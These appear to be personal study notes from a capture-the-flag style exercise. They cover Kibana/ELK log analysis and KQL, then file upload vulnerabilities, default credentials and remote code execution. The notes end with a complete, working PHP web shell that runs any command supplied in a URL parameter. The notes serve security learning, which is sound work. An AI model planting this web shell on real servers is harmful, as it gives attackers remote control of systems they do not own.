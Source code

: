 ```yaml
---
title: "Even if I wanted to go, their vulnerabilities wouldn't allow it."
draft: false
tags:
- cybersecurity
- logAnalysis
---
```

## Operation Blue
### Log Analysis & Introducing ELK
Combo of data analytics and processing tools to make analysing logs much more manageable.

### Using ELK
We will use Kibana Discover interface to revie Apache2 logs
A collection is a group of logs

**Kibana Discovery UAI**
![[Pasted image 20241203210804.png]]

1. **Search Bar:** Here, we can place our search queries using KQL
2. **Index Pattern:** An index pattern is a collection of logs. This can be from a specific host or, for example, multiple hosts with a similar purpose (such as multiple web servers). In this case, the index pattern is all logs relating to "wareville-rails"
3. **Fields:** This pane shows us the fields that Elasticsearch has parsed from the logs. For example, timestamp, response type, and IP address.
4. **Timeline:** This visualisation displays the event count over a period of time
5. **Documents (Logs):** These entries are the specific entries in the log file
6. **Time Filter:** We can use this to narrow down a specific time frame (absolute). Alternatively, we can search for logs based on relativity. I.e. "Last 7 days".


### Kibana Query Language (KQL)
`ip.address: "10.10.10.10"`
It can use Lucene


## Operation Red
### File Upload Vulnerabilities
- **RCE**
- **XSS**

Unrestricted file uploads can be particularly dangerous because they allow an attacker to upload any type of file.

- Uploading a script that the server executes, leading to RCE.  
    
- Uploading a crafted image file that triggers a vulnerability when processed by the server.  
    
- Uploading a web shell and browsing to it directly using a browser.

### Usage of weak credentials
Default credentials


### Remote Code Execution (RCE)
It happens when an attacker finds a way to run their own code on a system.

### What is a Web Shell
It is a script that attackers upload to a vulnerable server, giving them remote control over it.
Typically gives the attacker a web-based interface to run commands.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```








